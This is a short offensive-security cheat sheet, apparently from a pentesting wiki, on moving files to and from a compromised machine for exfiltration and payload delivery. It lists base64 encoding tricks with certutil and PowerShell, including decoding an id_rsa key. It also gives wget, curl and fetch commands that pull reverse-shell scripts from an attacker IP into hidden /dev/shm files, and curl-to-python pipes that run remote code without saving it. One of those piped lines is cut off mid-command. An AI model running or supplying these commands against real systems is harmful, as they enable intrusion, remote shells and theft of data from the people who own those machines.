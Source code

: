 {% embed url="https://discord.gg/tryhardsecurity" %}

***

## Commonly whitelisted domains to exfiltrate information

Check [https://lots-project.com/](https://lots-project.com/) to find commonly whitelisted domains that can be abused

## Copy\&Paste Base64

**Linux**

```bash
base64 -w 0 <file> #Encode file
base64 -d file #Decode file
```

**Windows**

```bash
certutil -encode payload.dll payload.b64
certutil -decode payload.b64 payload.dll

# using powershell
PS C:\htb> [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("<jajajabase64here>="))  # decode
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte)) # encode

```
> To ensure that we did not mess up the file during the encoding/decoding process, we can check its md5 hash. `file <file>` `md5sum <file>` , `Get-FileHash C:\<filepath> -Algorithm md5` (on windows)

>**Note:** While this method is convenient, it's not always possible to use. Windows Command Line utility (cmd.exe) has a maximum string length of 8,191 characters. Also, a web shell may error if you attempt to send extremely large strings.

## HTTP

**Linux**

```bash
wget 10.10.14.14:8000/tcp_pty_backconnect.py -O /dev/shm/.rev.py
wget 10.10.14.14:8000/tcp_pty_backconnect.py -P /dev/shm
curl 10.10.14.14:8000/shell.py -o /dev/shm/shell.py
fetch 10.10.14.14:8000/shell.py #FreeBSD
```
Fileless Attacks:
```bash
#  Fileless Attacks (excut without download the file)
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | 
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```
